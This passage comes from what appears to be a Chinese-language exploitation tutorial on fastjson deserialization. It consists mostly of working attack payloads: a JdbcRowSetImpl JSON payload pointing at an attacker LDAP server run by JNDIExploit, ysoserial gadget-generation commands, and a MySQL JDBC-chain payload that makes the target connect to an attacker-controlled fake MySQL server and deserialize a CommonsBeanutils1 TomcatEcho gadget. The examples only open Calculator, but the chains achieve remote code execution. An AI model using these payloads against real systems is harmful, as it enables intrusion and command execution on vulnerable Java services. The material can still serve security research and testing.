 
使用以下代码，就可以直接命令执行：(命令为打开计算器，需要搭建JNDIExploit)

    
    
    import com.alibaba.fastjson.JSON;  
    public class test {    
        public static void main(String[] args){  
          
     String jsonStr = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://x.x.x.x:1389/Deserialization/CommonsBeanutils1/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yLmFwcA==\", \"autoCommit\":true}\n";    
     JSON.parseObject(jsonStr);  
     }  
    }  
    

![](https://gitee.com/fuli009/images/raw/master/public/20220929133336.png)![](https://gitee.com/fuli009/images/raw/master/public/20220929133339.png)

# 0x03 工具用法

fastjson环境搭建完毕，了解一下fakeMySQL与ysoserial用法

## 0x001 fakeMySQL用法

https://github.com/fnmsd/MySQL_Fake_Server

![](https://gitee.com/fuli009/images/raw/master/public/20220929133341.png)

得到两点关键信息

  1. 配置文件进行预定义
  2. 用yso_开头的用户名，配合payload类型、命令 这里我进行了配置，配置文件放在末尾附件中

## 0x002 ysoserial用法(ysuserial)

https://github.com/su18/ysoserial

![](https://gitee.com/fuli009/images/raw/master/public/20220929133343.png)

    
    
    java -jar ysuserial-0.9-su18-all.jar -g CommonsCollections1 -p 'open -a Calculator.app'  
    

-g后面加上payload类型，-p为命令的参数或者为拓展的功能

# 0x04 工具联动

这里需要去调用yso的命令，所以根据之前工具的用法可以传入`yso_-g CommonsBeanutils1_-p EX-TomcatEcho`

根据以上，可以使用JDBC链，payload如下：

    
    
    {"x":{"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostToConnectTo":"x.x.x.x","portToConnectTo":3308,"info":{"user":"yso_-g CommonsBeanutils1_-p EX-TomcatEcho","password":"ubuntu","useSSL":"false","statementInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserialize":"true"},"databaseToConnectTo":"mysql","url":""}}  
    